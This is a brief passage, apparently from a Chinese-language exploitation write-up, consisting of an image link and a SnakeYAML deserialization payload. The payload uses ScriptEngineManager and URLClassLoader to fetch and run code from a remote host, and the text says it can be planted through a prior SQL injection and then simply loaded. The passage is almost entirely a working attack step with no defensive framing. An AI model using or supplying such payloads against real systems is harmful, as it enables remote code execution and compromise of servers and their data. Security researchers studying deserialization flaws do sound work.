

最后的payload是这样（可以通过上面的sql注入修改为该payload）

```
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://192.168.254.1:8081/profile/upload/2025/04/03/ma_20250403102239A001.txt"]]]]')
```

直接加载即可。

​

​

​
